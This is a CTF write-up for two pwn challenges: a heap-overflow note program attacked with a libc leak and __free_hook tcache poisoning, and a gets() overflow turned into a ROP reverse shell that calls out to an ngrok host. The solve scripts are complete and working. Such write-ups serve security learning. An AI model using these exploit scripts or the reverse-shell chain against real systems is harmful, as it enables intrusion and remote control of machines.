







This is a National CTF Challenge, thought the finalist is 20 team so accidently make the write up. Might as well upload in english here

# Pwn - TahuBulat

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

#define MAX_INDEX 2
#define MAX_SIZE 0x420

void *pages[5] = {0};
int page_sizes[3] = {0};

void show_menu() {
    puts("Welcome To My Note");
    puts("1. Request Page");
    puts("2. Fill Page");
    puts("3. Show Page");
    puts("4. Remove Page");
    puts("5. Exit");
}

void allocate_page() {
    unsigned int index, size;
    printf("idx : ");
    fflush(stdout);
    scanf("%u", &index);

    if (index <= MAX_INDEX) {
        if (pages[index * 2]) {
            puts("Allocated Yet");
        } else {
            printf("size : ");
            fflush(stdout);
            scanf("%u", &size);
            if (size <= MAX_SIZE) {
                page_sizes[index] = size;
                pages[index * 2] = malloc(size);
                puts("Allocation Done");
            } else {
                puts("Size Only between 0x and 0x420");
            }
        }
    } else {
        puts("No Out Of Bound Okay");
    }
}

void fill_page() {
    unsigned int index;
    printf("idx : ");
    fflush(stdout);
    scanf("%u", &index);

    if (index <= MAX_INDEX) {
        if (pages[index * 2]) {
            printf("content : ");
            fflush(stdout);
            read(0, pages[index * 2], page_sizes[index] + 16);
            puts("Thank You");
        } else {
            puts("Not Allocated Yet");
        }
    } else {
        puts("No Out Of Bound Okay");
    }
}

void show_page() {
    unsigned int index;
    printf("idx : ");
    fflush(stdout);
    scanf("%u", &index);

    if (index <= MAX_INDEX) {
        if (pages[index * 2]) {
            printf("content : %s\n", (char *)pages[index * 2]);
        } else {
            puts("Not Allocated Yet");
        }
    } else {
        puts("No Out Of Bound Okay");
    }
}

void remove_page() {
    unsigned int index;
    printf("idx : ");
    fflush(stdout);
    scanf("%u", &index);

    if (index <= MAX_INDEX) {
        if (pages[index * 2]) {
            free(pages[index * 2]);
            pages[index * 2] = NULL;
            puts("Removing Page Done");
        } else {
            puts("Not Allocated Yet");
        }
    } else {
        puts("No Out Of Bound Okay");
    }
}

int main() {
    int choice;
    while (1) {
        show_menu();
        printf("choice : ");
        fflush(stdout);
        scanf("%d", &choice);
        switch (choice) {
            case 1:
                allocate_page();
                break;
            case 2:
                fill_page();
                break;
            case 3:
                show_page();
                break;
            case 4:
                remove_page();
                break;
            case 5:
                exit(0);
            default:
                puts("choice the right number!");
                break;
        }
    }
    return 0;
}

int winner() {
    puts("Welcome Hacker");
    return system("/bin/sh");
}
```

## Summary

Leak libc with `unsorted bin` using `heap overflow` then overwrite `__free_hook` to `winner` function and call `free`

## Solution
Given the `soal` file with `libc.so.6`. First, I ran `pwninit` for patching, then start the program and it gave me four options:



1. Request Page, which will request the index and size for malloc.
2. Fill Page, which will request the index and input data.
3. Show Page, which will display the contents of the index.
4. Remove Page, which will free the given index.

It's also important to note that the size is limited to 0x420, and the number of indexes is limited to 3.

There was a `heap overflow` during fill page. To get a libc leak, you can use a large allocation, where the free value goes to the `unsorted bin`. To view the `free` index, edit the previous index.

```python
alloc(0, 0x18)
alloc(1, 0x420) # Unsorted bin
alloc(2, 0x18) # Guard
free(1)
edit(0, b"A"*0x20) # Heap overflow
show(0)
```



After getting the libc leak, simply perform a `tcache poisoning` on `__free_hook`, as the libc version used is `2.31`. It's also worth notice that there's a `winner` function, so simply overwrite `__free_hook` to the `winner` function.



### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
from subprocess import Popen

# =========================================================
#                          SETUP                         
# =========================================================
exe = './soal_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.160.212.3", 17005


gdbscript = '''
init-pwndbg
#set architecture aarch64
# target remote :5000
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
def alloc(idx, size):
    io.sendlineafter(b': ', b'1')
    io.sendlineafter(b': ', str(idx).encode())
    io.sendlineafter(b': ', str(size).encode())

def edit(idx, data):
    io.sendlineafter(b': ', b'2')
    io.sendlineafter(b': ', str(idx).encode())
    io.sendafter(b': ', data)

def show(idx):
    io.sendlineafter(b': ', b'3')
    io.sendlineafter(b': ', str(idx).encode())
    io.recvuntil(b'content : ')

def free(idx):
    io.sendlineafter(b': ', b'4')
    io.sendlineafter(b': ', str(idx).encode())

def exploit():
    global io
    io = initialize()
    with log.progress("Leak libc via unsortedbins heap overflow"), context.silent:
        alloc(0, 0x18)  # chunk 0
        alloc(1, 0x420)  # chunk 1
        alloc(2, 0x18)  # chunk 2 also guard
        free(1)
        edit(0, b"A"*0x20) # Heap overflow touch chunk 1
        show(0) # Leak with chunk 0
        io.recv(0x20)
        libc_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - 0x1ecbe0
    log.info("Libc base address: %#x", libc_leak)
    log.info("Libc base address: %#x", libc.address)

    with log.progress("Tcache poisoning to __free_hook and overwrite to winner function"), context.silent:
        edit(0, b"A"*0x18 + p64(0x430)) # Fix chunk 1 to valid header size

        alloc(1, 0x18)  # chunk 1
        free(2)
        free(1) # victim chunk
        edit(0, b"A"*0x20 + p64(libc.symbols['__free_hook'])) # Heap overflow to chunk 1
        alloc(2, 0x18)  # chunk 2
        alloc(1, 0x18)  # chunk 1
        edit(1, p64(elf.sym["winner"])) # Overwrite __free_hook with winner function
        free(2) # Trigger the winner function
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITFEST25{soalnya_dibikin_dadakan_karena_ada_probset_yang_buat_soal_tapi_gaada_solvernya_muehehehe___ZafiN}`
    
# Pwn - My First Ever...

## Introduction 



## Source Code

```C
#include <stdio.h>

int main() {
  char buf[8];
  gets(buf);
  fclose(stdin);
  fclose(stdout);
  fclose(stderr);
}

__attribute__((constructor))
void setup(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}
```

## Summary

Use the `mov qword ptr` gadget to arbitary write the socket address and `/bin/sh\0` string, then simply do a reverseshell with `socket`, `dup2`, `connect` and `execve`.

## Solution

Given a `chall` file with `chall.c`. Here, there's a `BOF` `gets` command, but after the `gets` command, it `fclose` `stdin`, `stdout`, and `stderr`. Therefore, we need a way to obtain a shell in one input so that the program doesn't terminate.

After researching, I discovered that this problem is similar to the `pwnable.tw` `kidding` problem, where `fclose` is used for `stdin`, `stderr`, and `stdout`, but the 64-bit version is provided.




So, they perform a reverse shell by using a `socket`, then `dup2` the socket's file descriptor, and then `connect`.
So, I simply use a ropchain to invoke the `syscall`. To public the IP address, we can use `ngrok tcp 8080`, then `nc -lnvp 8080`.

To get the shell in one input, we can write `.bss` `/bin/sh\0` then execute.



### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
from subprocess import Popen
from pyngrok import ngrok

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.160.212.3", 1470


gdbscript = '''
init-pwndbg
#set architecture aarch64
# target remote :5000
b *main+80
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
def start_ngrok_tcp(port=8080):
    public_url = ngrok.connect(port, "tcp")
    log.success(f"{public_url}")
    _, address = str(public_url).split("://")
    ip, port = address.split('"')[0].split(":")
    return ip, int(port)

def exploit():
    global io
    io = initialize()
    offset = 0x10
    syscall = next(elf.search(asm("syscall ; ret")))
    mov_qword_ptr_rsi_rax = next(elf.search(asm("mov qword ptr [rsi], rax ; ret")))

    rop = ROP(elf)
    # socket(2, 1, 0)
    rop.rax = constants.SYS_socket
    rop.call(syscall, [2, 1, 0])

    # dup2(sockfd, 1)
    rop.rax = constants.SYS_dup2
    rop.call(syscall, [0, 1])

    if args.REMOTE:
        ip, port = start_ngrok_tcp(8080)
        ip = socket.gethostbyname('0.tcp.ap.ngrok.io')
    else:
        ip = '127.0.0.1'
        port = 8080

    sockaddr_struct = p16(2) + p16(socket.htons(port)) + p32(u32(socket.inet_aton(ip)))

    # arbitrary write sockaddr to bss
    rop.rsi = elf.bss()
    rop.rax = sockaddr_struct
    rop.raw(mov_qword_ptr_rsi_rax)

    # connect(sockfd, sockaddr, addrlen)
    rop.rax = constants.SYS_connect
    rop.call(syscall, [0, elf.bss(), 0x10])

    # arbitrary write /bin/sh\0 to bss
    rop.rsi = elf.bss()
    rop.rax = b"/bin/sh\x00"
    rop.raw(mov_qword_ptr_rsi_rax)

    # execve("/bin/sh", NULL, NULL)
    rop.rax = constants.SYS_execve    
    rop.call(syscall, [elf.bss(), 0, 0])

    payload = flat({ offset:[rop.chain()]}, filler=b"\x00")
    io.sendline(payload)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITFEST25{tH4nK5_f0R_My_f1R5t_R0p_rEV5h3lL}`